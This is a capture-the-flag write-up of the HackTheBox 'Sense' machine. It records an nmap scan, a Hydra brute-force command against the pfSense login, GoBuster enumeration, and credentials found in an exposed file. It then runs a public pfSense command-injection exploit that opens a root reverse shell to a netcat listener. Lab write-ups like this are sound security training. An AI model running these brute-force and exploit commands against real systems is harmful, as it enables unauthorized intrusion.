 `Box: Linux`
`Level: Easy`
### Index
1. [[#Box Info]]
2. [[#Initial Nmap Scan]]
3. [[#`Web`]]
	1. [[#`Hydra to bruteforce login page`]]
	2. [[#`Directory and File Enumeration using GoBuster`]]
	3. [[#`pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`]]

### `Box Info`
```
Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.
```

### `Initial Nmap Scan`
```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
|_ssl-date: TLS randomness does not represent time
```

### `Web`
###### `Hydra to bruteforce login page`
```
 hydra -l admin -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt  10.10.10.60 http-post-form "/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:16:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 499 login tries (l:1/p:499), ~32 tries per task
[DATA] attacking http-post-form://10.10.10.60:80/index.php:usernamefld=^USER^&passwordfld=^PASS^:Username or Password incorrect
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-01 21:17:14
```

###### `Directory and File Enumeration using GoBuster`
```
# gobuster dir -u https://10.10.10.60/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,conf,zip,inc,tar -b 403,404
/index.php            (Status: 200) [Size: 6690]
/help.php             (Status: 200) [Size: 6689]
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/stats.php            (Status: 200) [Size: 6690]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/edit.php             (Status: 200) [Size: 6689]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/license.php          (Status: 200) [Size: 6692]
/system.php           (Status: 200) [Size: 6691]
/status.php           (Status: 200) [Size: 6691]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/exec.php             (Status: 200) [Size: 6689]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/graph.php            (Status: 200) [Size: 6690]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/wizard.php           (Status: 200) [Size: 6691]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/pkg.php              (Status: 200) [Size: 6688]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/xmlrpc.php           (Status: 200) [Size: 384]
/system-users.txt     (Status: 200) [Size: 106]

```

The directories which says `301` above were all printing HTML text that says `404 not found` upon trying. 

The file `system-user.txt` reveals the credentals
![[sense_web0.png]]

On the web `https://10.10.10.60/`, the credentials works. the password that I guessed was `pfsense`

![[sense_web1.png]]

###### `pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection`

The [Exploit-DB](https://www.exploit-db.com/exploits/43560) Exploit got us the root shell.
```
# python 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

on the netcat side
```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.60] 48326
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
d*****************
```

Get your user and root flag
